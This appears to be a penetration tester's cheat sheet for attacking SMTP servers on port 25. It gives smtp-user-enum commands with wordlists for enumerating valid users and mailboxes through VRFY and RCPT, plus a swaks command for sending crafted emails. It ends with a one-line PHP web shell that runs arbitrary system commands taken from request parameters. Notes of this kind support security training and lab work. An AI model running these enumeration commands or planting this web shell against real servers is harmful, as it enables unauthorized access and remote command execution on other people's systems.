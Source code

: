 # smtp :25

## User enum

check for any possible usernames / department names available

```bash
# takes time to run
smtp-user-enum [flag]-U <user-list> -t <IP/Domain>
- /usr/share/seclists/Usernames/top-usernames-shortlist.txt
- /usr/share/seclists/Usernames/Names/names.txt
- /usr/share/wordlists/metasploit/unix_users.txt

# flags
# check if mailbox exists
-M RCPT
# check if user exists
-M VRFY
```

## Cheatsheet for commands:

[https://www.samlogic.net/articles/smtp-commands-reference.htm](https://www.samlogic.net/articles/smtp-commands-reference.htm)

## Swiss Army Knife for SMTP

[https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```
# send auto email
$ swaks --to EMAIL --from kashz --header "Subject: kashz" --body "SHELL or LINK?" --server IP
<?php system($_REQUEST["cmd"]); ?>
```
